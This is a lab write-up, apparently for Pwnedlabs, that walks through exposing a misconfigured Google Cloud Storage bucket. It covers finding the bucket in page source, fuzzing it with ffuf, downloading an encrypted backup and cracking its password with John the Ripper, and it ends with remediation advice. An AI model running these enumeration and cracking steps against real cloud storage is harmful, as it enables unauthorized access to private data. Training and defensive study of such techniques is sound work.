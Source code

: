 ## **Reveal Hidden Files in Google Storage**


![](https://i.imgur.com/oHc3KrJ.png)


- Visiting the domain hosted with Google cloud; [https://careers.gigantic-retail.com/index.html](https://careers.gigantic-retail.com/index.html)
- Wappalyzer shows it is truly hosted in GCP


![](https://github.com/user-attachments/assets/6e56874a-0d81-479a-92f3-032157afb3ff)

- Viewing page source discovered a commented storage image path 

```js
<!--                    <div class="right-image">
                        <img src="https://storage.googleapis.com/it-storage-bucket/images/retail1.jpg" alt="Career Image">
                    </div> -->
```

For further enumeration install google cloud cli from [here](https://cloud.google.com/sdk/docs/install-sdk)


- Login to G-cloud

```
 gcloud auth login

Your browser has been opened to visit:

    https://accounts.google.com/o/oauth2/auth?response_type=code&client_id=32555940559.apps.googleusercontent.com&redirect_uri=http%3A%2F%2Flocalhost%3A8085%2F&scope=openid+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcloud-platform+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fappengine.admin+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fsqlservice.login+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcompute+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Faccounts.reauth&state=TwdT2cshR2ovPO71xl6vLzKzy4fZ9n&access_type=offline&code_challenge=6KHmXYqGgs_oDLy12_w6P895_dSPF_iI360bCo--ZiDQ&code_challenge_method=S256

Opening in existing browser session.

You are now logged in as [ol*******@gmail.com].
Your current project is [None].  You can change this setting by running:
  $ gcloud config set project PROJECT_ID
```


- Listing bucket content with google cli = access denied error

```bash
secfortress@sh3llz ~/GCP_Hacking> gcloud storage buckets list gs://it-storage-bucket/

ERROR: (gcloud.storage.buckets.list) [ol******@gmail.com] does not have permission to access b instance [it-storage-bucket] (or it may not exist): ol******@gmail.com does not have storage.buckets.get access to the Google Cloud Storage bucket. Permission 'storage.buckets.get' denied on resource (or it may not exist). This command is authenticated as ol******@gmail.com which is the active account specified by the [core/account] property.

```


- Listing bucket content with google storage utility = access denied error also

```bash
secfortress@sh3llz ~/GCP_Hacking [1]> gsutil ls gs://it-storage-bucket/

AccessDeniedException: 403 ola******@gmail.com does not have storage.objects.list access to the Google Cloud Storage bucket. Permission 'storage.objects.list' denied on resource (or it may not exist).
```


- The stat command list info about object URLs also (good for enumeration purposes)

```bash
secfortress@sh3llz ~/GCP_Hacking [1]> gsutil stat gs://it-storage-bucket/index.html

gs://it-storage-bucket/index.html:
    Creation time:          Tue, 26 Dec 2023 17:16:02 GMT
    Update time:            Tue, 26 Dec 2023 20:16:06 GMT
    Storage class:          STANDARD
    Content-Length:         11407
    Content-Type:           text/html
    Hash (crc32c):          NQiHAw==
    Hash (md5):             rIHCYQzSUEHllo04PfXd0w==
    ETag:                   CMTu57HNrYMDEAI=
    Generation:             1703610962016068
    Metageneration:         2
secfortress@sh3llz ~/GCP_Hacking> gsutil stat gs://it-storage-bucket/index.css

You aren't authorized to read gs://it-storage-bucket/index.css - skipping
No URLs matched: gs://it-storage-bucket/index.css
secfortress@sh3llz ~/GCP_Hacking [1]> gsutil stat gs://it-storage-bucket/js/main.js

gs://it-storage-bucket/js/main.js:
    Creation time:          Tue, 26 Dec 2023 14:33:11 GMT
    Update time:            Tue, 26 Dec 2023 20:27:02 GMT
    Storage class:          STANDARD
    Content-Length:         1924
    Content-Type:           text/javascript
    Hash (crc32c):          02RNaw==
    Hash (md5):             9npVfXhpiN8qVRqKK9M2mA==
    ETag:                   CIqY4P6orYMDEAI=
    Generation:             1703601191259146
    Metageneration:         2

```


- Although there is no sensitive output from the previous command
- It is possible to fuzz for sensitive files in the storage bucket using `ffuf`
- Download the given wordlist with the below command

```bash
wget https://raw.githubusercontent.com/xajkep/wordlists/master/discovery/backup_files_only.txt
```


Then fuzz the storage bucket with the below command

```bash
# -w : wordlist file
# -u : URL of storage bucket
# -c : colorize output
ffuf -w backup_files_only.txt -u https://storage.googleapis.com/it-storage-bucket/FUZZ -mc 200 -c
```

> PS: you don't need to always use `ffuf`, any tool that does the work faster and efficient


```bash
secfortress@sh3llz ~/GCP_Hacking> ffuf -w backup_files_only.txt -u https://storage.googleapis.com/it-storage-bucket/FUZZ -mc 200 -c

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://storage.googleapis.com/it-storage-bucket/FUZZ
 :: Wordlist         : FUZZ: /home/secfortress/GCP_Hacking/backup_files_only.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200
________________________________________________

backup.7z               [Status: 200, Size: 22072, Words: 102, Lines: 101, Duration: 367ms]
:: Progress: [1015/1015] :: Job [1/1] :: 136 req/sec :: Duration: [0:00:08] :: Errors: 0 ::
```


- Then use the `gsutil` command to download the `.7z` file locally

```bash
secfortress@sh3llz ~/GCP_Hacking> gsutil cp gs://it-storage-bucket/backup.7z .

Copying gs://it-storage-bucket/backup.7z...
- [1 files][ 21.6 KiB/ 21.6 KiB]                                                
Operation completed over 1 objects/21.6 KiB.
```


- The` .7`z file is encrypted
- Grab the hash file with `7z2john` to crack with `JtR`


```
┌──(secfortress㉿sh3llz)-[~/GCP_Hacking]
└─$ 7z2john backup.7z >> hash.txt
ATTENTION: the hashes might contain sensitive encrypted data. Be careful when sharing or posting these hashes

```


- Now crack with `johntheripper`


```bash
secfortress@sh3llz ~/GCP_Hacking> john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (7z, 7-Zip archive encryption [SHA256 256/256 AVX2 8x AES])
Cost 1 (iteration count) is 524288 for all loaded hashes
Cost 2 (padding size) is 3 for all loaded hashes
Cost 3 (compression type) is 2 for all loaded hashes
Cost 4 (data length) is 21837 for all loaded hashes
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
balance          (backup.7z)     
1g 0:00:01:43 DONE (2025-09-06 00:03) 0.009692g/s 124.6p/s 124.6c/s 124.6C/s rainbow2..wendel
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

> The hash cracking process was successful, Password is: **"balance**

Then decrypt the file using the `7z` utility

```bash
secfortress@sh3llz ~/GCP_Hacking> 7z x backup.7z 

7-Zip 24.09 (x64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-11-29
 64-bit locale=en_US.UTF-8 Threads:12 OPEN_MAX:1024, ASM

Scanning the drive for archives:
1 file, 22072 bytes (22 KiB)

Extracting archive: backup.7z
--
Path = backup.7z
Type = 7z
Physical Size = 22072
Headers Size = 232
Method = LZMA2:16 7zAES
Solid = +
Blocks = 1

    
Enter password (will not be echoed):
Everything is Ok

Files: 2
Size:       54193
Compressed: 22072

```


The retrieve file contains sensitive PII and a flag for the platform; **_Pwnedlabs_**


![](https://github.com/user-attachments/assets/1254af32-0f4b-43b3-9529-a422ab8984da)


## **Remediation**


- Use a single purpose bucket for web hosting 
- Redact the name of the Google Storage bucket that was hosting the website.
- Store sensitive archives in a private bucket
- Use strong and complex passwords for encrypted files
- Use per-project random codenames such as `deltaorangestouchdown-prod` to name the buckets.


<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>
